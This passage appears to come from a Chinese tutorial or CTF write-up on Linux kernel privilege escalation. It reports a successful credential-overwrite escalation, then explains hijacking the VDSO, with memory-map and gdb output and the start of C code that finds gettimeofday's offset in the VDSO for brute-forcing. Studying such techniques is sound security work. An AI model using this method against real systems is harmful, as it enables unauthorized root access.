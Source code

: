 
成功提权：

![](http://upload-images.jianshu.io/upload_images/6349402-91805000d694cd0b.png) 1-exp_cred_succeed.png

### 2. 方法二：劫持 VDSO

VDSO 是内核通过映射方法与用户态共享一块物理内存，从而加快执行效率，也叫影子内存。当在内核态修改内存时，用户态所访问到的数据同样会改变，这样的数据区在用户态有两块，`vdso`和`vsyscall`。

```
gdb-peda$ cat /proc/self/maps
00400000-0040c000 r-xp 00000000 08:01 561868                             /bin/cat
0060b000-0060c000 r--p 0000b000 08:01 561868                             /bin/cat
0060c000-0060d000 rw-p 0000c000 08:01 561868                             /bin/cat
01cff000-01d20000 rw-p 00000000 00:00 0                                  [heap]
...
7fff937d7000-7fff937d9000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]


```

##### （1）VDSO 介绍

vsyscall 和 VDSO 都是为了避免传统系统调用模式 INT 0x80/SYSCALL 造成的内核空间和用户空间的上下文切换。vsyscall 只允许 4 个系统调用，且在每个进程中静态分配了相同的地址；VDSO 是动态分配的，地址随机，可提供超过 4 个系统调用，VDSO 是 glibc 库提供的功能。

VDSO—Virtual Dynamic Shared Object。本质就是映射到内存中的. so 文件，对应的程序可以当普通的. so 来使用其中的函数。VDSO 所在的页，在内核态是可读、可写的，在用户态是可读、可执行的。

VDSO 在每个程序启动的加载过程如下：

```
#0  remap_pfn_range (vma=0xffff880000bba780, addr=140731259371520, pfn=8054, size=4096, prot=...) at mm/memory.c:1737
#1  0xffffffff810041ce in map_vdso (image=0xffffffff81a012c0 <vdso_image_64>, calculate_addr=<optimized out>) at arch/x86/entry/vdso/vma.c:151
#2  0xffffffff81004267 in arch_setup_additional_pages (bprm=<optimized out>, uses_interp=<optimized out>) at arch/x86/entry/vdso/vma.c:209
#3  0xffffffff81268b74 in load_elf_binary (bprm=0xffff88000f86cf00) at fs/binfmt_elf.c:1080
#4  0xffffffff812136de in search_binary_handler (bprm=0xffff88000f86cf00) at fs/exec.c:1469


```

在 map_vdso 中首先查找到一块用户态地址，将该块地址设置为 VM_MAYREAD|VM_MAYWRITE|VM_MAYEXEC，利用 remap_pfn_range 将内核页映射过去。

dump vdso 代码：

```
//dump_vdos.c
// 获取gettimeofday 字符串的偏移，便于爆破；dump vdso还是需要在程序中爆破VDSO地址，然后gdb中断下，$dump memory即可（VDSO地址是从ffffffff开头的）。
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/auxv.h> 

 #include <sys/mman.h>
int main(){
    int test;
    size_t result=0;
    unsigned long sysinfo_ehdr = getauxval(AT_SYSINFO_EHDR);
    result=memmem(sysinfo_ehdr,0x1000,"gettimeofday",12);
    printf("[+]VDSO : %p\n",sysinfo_ehdr);
    printf("[+]The offset of gettimeofday is : %x\n",result-sysinfo_ehdr);
    scanf("Wait! %d", test);  
```